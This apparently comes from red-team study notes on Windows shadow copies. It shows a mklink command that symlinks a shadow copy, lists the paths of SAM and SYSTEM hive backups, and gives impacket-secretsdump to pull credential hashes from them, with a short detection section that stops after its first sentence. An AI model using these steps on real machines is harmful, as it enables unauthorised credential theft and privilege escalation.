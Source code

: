 ## Symlink Shadow Copy

We can create a symlink to access a shadow easily.

```
mklink /d C:\ShadowCopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\
```

![[mklink-shadow-copy.png]]

> Note: In the image above, I didn't use a backslash (`\`) at the end of the command. This will throw an error the following error:

```
C:\Windows\system32>cd C:\ShadowCopy
The parameter is incorrect.
```

We can fix this by removing the directory and creating a symlink with the backslash (`\`) at the end.

![[shadow-copy-linked.png]]

# Privilege Escalation via Shadow Copies

We're looking for sensitive information such as credentials, memory dumps, or other.

## Dump SAM & SYSTEM Backups

SAM and SYSTEM files cannot normally be accessed on an active system but they can be accessed in backups. They are commonly located in these directories:

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

Once these files has been exfiltrated from the system, we could use impacket to crack them.

```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

## Others

The creativity here is up to the adversary and what he/she can find.

## Detection

We can log the command line events by configuring Group Policy. Take into consideration the following policies.
